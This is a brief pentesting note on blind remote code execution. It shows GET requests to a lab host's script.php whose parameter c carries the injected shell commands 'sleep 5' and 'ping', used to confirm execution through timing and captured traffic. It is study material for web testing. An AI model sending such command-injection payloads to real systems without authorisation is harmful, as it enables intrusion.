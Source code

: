 ```yaml
---
title: RCE attack - Remote Code Execution
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting
--- 
```


Exploiting Blind Remote Execution Vulnerability attack in a GET request in BurpSuite (to run the queries) and Wireshark (to capture the traffic).

```
________
GET /script.php?c=sleep+5&ok=ok HTTP/1.1
Host 192.168.137.130
User Agent....
...
________
```


Also other command:

```
GET /script.php?c=ping+192.168.139.130+-c+5&ok=ok HTTP/1.1
```


